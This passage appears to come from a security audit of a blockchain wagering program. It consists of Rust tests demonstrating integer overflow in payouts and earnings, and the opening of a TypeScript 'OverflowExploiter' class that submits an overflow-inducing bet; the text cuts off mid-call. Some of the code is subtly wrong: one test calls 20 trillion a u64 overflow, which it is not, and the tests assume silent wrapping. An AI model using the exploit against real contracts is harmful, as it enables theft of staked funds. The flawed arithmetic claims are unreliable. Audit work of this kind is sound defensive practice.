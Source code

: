 ```rust
        // Overflow! Should be 18,446,744,073,709,551,616 but wraps to 0
        assert_eq!(winning_amount, 0); // Massive bet becomes 0 payout!

        // Players who should win billions get nothing
    }

    #[test]
    fn test_earnings_overflow() {
        let mut game_session = create_test_game_session(1000);

        // Set player to maximum kills
        game_session.team_a.player_kills[0] = u16::MAX; // 65,535
        game_session.team_a.player_spawns[0] = 1;

        // Calculate earnings: kills + spawns
        let earnings = game_session.calculate_player_earnings(0, 0);

        // Should be 65,536 but u16 overflow makes it 0
        assert_eq!(earnings.unwrap(), 0); // Top player gets 0 earnings!
    }

    #[test]
    fn test_accumulation_overflow() {
        let mut total_distributed = u64::MAX - 1000; // Near maximum
        let payout_amount = 2000; // This will cause overflow

        // Simulate distribution loop
        total_distributed += payout_amount; // Overflow!

        // Result wraps around to small value
        assert!(total_distributed < 1000); // Massive total becomes tiny
    }

    #[test]
    fn test_multiplication_chain_overflow() {
        let base_amount = 100_000_000u64; // 100 million
        let multiplier1 = 1000u64;
        let multiplier2 = 200u64;

        // Chain multiplication: 100M * 1000 * 200 = 20 trillion
        let result = base_amount * multiplier1 * multiplier2;

        // Overflows u64::MAX (18.4 quintillion), wraps to small value
        assert!(result < base_amount); // Result smaller than input!
    }
}
```

### Real-World Attack Implementation
```typescript
class OverflowExploiter {
    async exploitBetOverflow(): Promise<void> {
        // 1. Calculate maximum bet amount that causes overflow
        const maxU64 = BigInt("18446744073709551615");
        const overflowBet = (maxU64 / BigInt(2)) + BigInt(1);

        // 2. Create game session with overflow-inducing bet
        try {
            await this.wagerProgram.methods
                .createGameSession(
                    "overflow_attack_session",
                    overflowBet, // This will cause payout overflow
                    GameMode.WinnerTakesAllFiveVsFive
```